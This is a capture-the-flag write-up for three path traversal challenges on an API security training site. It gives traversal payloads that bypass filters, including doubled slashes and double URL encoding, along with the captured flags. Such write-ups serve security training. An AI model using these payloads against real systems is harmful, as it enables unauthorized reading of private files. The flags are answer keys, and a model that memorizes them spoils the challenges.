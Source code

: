 ## Slash and Dash

### Roads Less Traveled  

Designed By: Josh Cutting - Maltek Solutions  
Points: 50 Create Task

Ever feel like the web is hiding secrets just beneath the surface? You're right. This challenge drops you into a janky search API with a serious trust issue—it happily believes whatever path you feed it. Your objective: go off the beaten path, dodge the digital bouncers, and unearth the legendary `flag.txt` lurking in a **private** spot at the root of the filesystem. Pro tip: Sometimes, the way forward is actually up.. and back.

[https://roads-less-traveled.ac25.apisecuniversity.com](https://roads-less-traveled.ac25.apisecuniversity.com)

Solution:

Here there was no filter, just perform the path traversal.

```
../private/flag.txt
```

![](2025-05-24_15-29.png)

```json
flag{D1R_TR4V3RS4L_F1L3_4CC3SS}
```

### Filtered Fun  

Designed By: Josh Cutting - Maltek Solutions  
Points: 100 Create Task

Step into the shadows of the web with this entry-level exploit challenge from the underground. Our shady search API has a _tiny_ flaw… and you’re just the right mischief-maker to exploit it. Your mission: break out of the sandbox, sidestep the guards, and sneak a peek at the elusive `flag.txt` stashed in a **private** place at the root of the filesystem. Can you wiggle through the layers and unravel the filter’s tricks?

[https://filtered-fun.ac25.apisecuniversity.com](https://filtered-fun.ac25.apisecuniversity.com)

Solution:

Here it was enough to duplicate the slashes to bypass the filter.

```
....//private//flag.txt
```

![](2025-05-24_15-31.png)

```json
flag{F1LT3R_BYP4SS_D0T_D0T_SL4SH}
```

### Encoded Escapades  

Designed By: Josh Cutting - Maltek Solutions  
Points: 150 Create Task

The filesystem holds secrets—but this time, the path to truth is scrambled. You’ve found a quirky search API that’s a little too trusting and a little too encoded for its own good. Your objective: decode the madness, navigate through the layers of obfuscation, and uncover the **private** sacred relic known as `flag.txt`, hidden at the root of the system. Think traversal, but with a twist. Some breadcrumbs are plain text. Others? Not so much. Get ready to crack encodings, climb directories, and break the rules—one byte at a time.

[https://encoded-escapades.ac25.apisecuniversity.com](https://encoded-escapades.ac25.apisecuniversity.com)

Solution:

To bypass the filter here, it was necessary to double URL encode.

```
%252E%252E%252Fprivate%252Fflag%252Etxt
```

![](2025-05-24_15-33_1.png)

```json
flag{D0UBL3_3NC0D1NG_TR4V3R54L_M45T3R}
```
